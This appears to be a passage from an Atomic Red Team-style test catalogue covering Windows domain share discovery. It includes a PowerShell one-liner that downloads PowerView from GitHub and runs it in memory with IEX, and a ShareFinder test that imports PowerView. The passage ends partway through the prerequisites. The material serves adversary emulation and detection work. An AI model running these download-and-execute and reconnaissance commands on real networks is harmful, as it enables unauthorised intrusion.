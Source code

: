 **auto_generated_guid:** b1636f0a-ba82-435c-b699-0d78794d8bfd

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Find-DomainShare -CheckShareAccess -Verbose
```

#### Dependencies: Run with `powershell`!

##### Description: Endpoint must be joined to domain

##### Check Prereq Commands:

```powershell
if ((Get-WmiObject -Class Win32_ComputerSystem).PartofDomain) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
"Join system to domain"
```

<br/>
<br/>

## Atomic Test #8 - PowerView ShareFinder

PowerView is a PowerShell tool to gain network situational awareness on Windows domains. ShareFinder finds (non-standard) shares on machines in the domain.

**Supported Platforms:** Windows

**auto_generated_guid:** d07e4cc1-98ae-447e-9d31-36cb430d28c4

#### Inputs:

| Name       | Description           | Type   | Default Value     |
| ---------- | --------------------- | ------ | ----------------- |
| parameters | ShareFinder parameter | string | -CheckShareAccess |

#### Attack Commands: Run with `powershell`!

```powershell
Import-Module "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1"
Invoke-ShareFinder #{parameters}
```

#### Dependencies: Run with `powershell`!

##### Description: Invoke-ShareFinder module must exist in %TEMP% directory

##### Check Prereq Commands:
